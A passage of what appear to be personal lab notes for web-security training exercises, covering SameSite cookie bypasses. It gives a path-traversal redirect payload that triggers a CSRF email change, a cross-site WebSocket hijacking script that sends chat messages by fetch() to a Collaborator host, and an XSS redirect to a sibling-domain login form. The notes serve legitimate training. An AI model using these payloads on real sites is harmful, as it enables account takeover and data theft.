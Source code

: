 This redirection is handled client-side using this JavaScript file: `/resources/js/commentConfirmationRedirect.js`

This JS uses the postId parameter to dynamically construct the path for the redirect: 
![[Pasted image 20240717190448.png]]

Copy the `GET /post/comment/confirmation?postId=x`, paste it on the browser, and replace the 1 with "foo". It will try to redirect you to /post/foo

Try to inject a path traversal like `../../my-account` . The browser normalizes the URL and takes you to the account page. 

This means you can get a GET request to the parameter in the postId

Send the "change-email" request to the repeater, change the request method, and verify **you can still performing this action with a different method**

So this will be your payload: 
```text
<script> 
	document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1"; 
</script>
```

---
### SameSite Strict bypass via sibling domain

Go to the live chat feature and send a few messages. In Burp find the WebSocket handshake request. This should be the most recent `GET /chat` request.
This doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.
  
```js
<script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>
```    

In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.

Visit this new URL to discover an additional login form. Observe that the "username" field is vulnerable to XSS. 

Send the `POST /login` request containing the XSS payload to Burp Repeater.

In Burp Repeater, right-click on the request and select **Change request method** to convert the method to `GET`. Confirm that it still receives the same response.
URL encode the entire script.

Go back to the exploit server and create this script:
`<script> document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>`

If it works, send it to victim.

---